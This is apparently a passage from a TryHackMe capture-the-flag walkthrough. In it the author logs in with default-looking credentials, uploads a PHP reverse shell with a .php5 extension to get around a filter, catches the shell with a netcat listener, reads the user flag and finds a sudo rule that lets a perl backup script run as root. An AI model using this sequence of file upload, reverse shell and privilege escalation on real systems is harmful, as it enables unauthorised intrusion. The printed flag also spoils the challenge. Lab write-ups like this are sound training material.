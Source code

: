 Enter The Target URL(Example : localhost.com) : 10.201.50.69/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.201.50.69/content/attachment/php-reverse-shell.php5
root@ip-10-201-78-158:~# 

AHA it doesnt accept .php extensions!

root@ip-10-201-78-158:~# nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.201.50.69 41036
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 16:58:18 up  1:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls  
bin
boot
cdrom



$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

ok user flag

$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
